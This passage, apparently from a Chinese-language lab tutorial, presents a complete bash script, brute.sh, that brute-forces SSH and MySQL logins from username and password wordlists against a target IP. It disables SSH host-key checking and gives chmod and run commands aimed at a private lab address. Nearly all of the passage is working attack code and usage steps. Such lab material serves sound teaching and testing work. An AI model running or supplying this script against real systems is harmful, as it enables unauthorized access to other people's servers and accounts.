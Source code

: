 ```bash
if [ "$attack_type" != "mysql" ] && [ "$attack_type" != "ssh" ]; then
    echo "The attack type must be 'mysql' or 'ssh'"
    exit 2
fi

# SSH暴力破解
if [ "$attack_type" == "ssh" ]; then
    echo "Start brute force cracking SSH..."
    while IFS= read -r user; do
        while IFS= read -r pass; do
            echo "try $user:$pass"
            sshpass -p "$pass" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=5 "$user@$target_ip" "exit"
            if [ $? -eq 0 ]; then
                echo "Successfully logged in SSH: $user:$pass"
                exit 0
            fi
        done < "$passwordlist"
    done < "$userlist"
fi

# MySQL暴力破解
if [ "$attack_type" == "mysql" ]; then
    echo "Start brute force cracking MySQL..."
    while IFS= read -r user; do
        while IFS= read -r pass; do
            echo "try $user:$pass"
            mysql -u "$user" -p"$pass" -h "$target_ip" -e "exit" 2>/dev/null
            if [ $? -eq 0 ]; then
                echo "Successfully logged in MySQL: $user:$pass"
                exit 0
            fi
        done < "$passwordlist"
    done < "$userlist"
fi

```



**（2） 执行脚本：**

- **脚本赋权：**`chmod +x brute.sh`

- **用法：**`./brute.sh [用户名列表文件] [密码列表文件] [暴力破解的种类: mysql/ssh] [目标IP]`

- **脚本的执行：**
	1. 编辑创建字典文件ur.txt和pw.txt。
	2. ssh暴力破解：`./brute.sh ur.txt pw.txt ssh 192.168.255.132`
	3. mysql暴力破解：`./brute.sh ur.txt pw.txt mysql 192.168.255.132`

**（3） 查看结果：** 

结果显示，如图10所示。
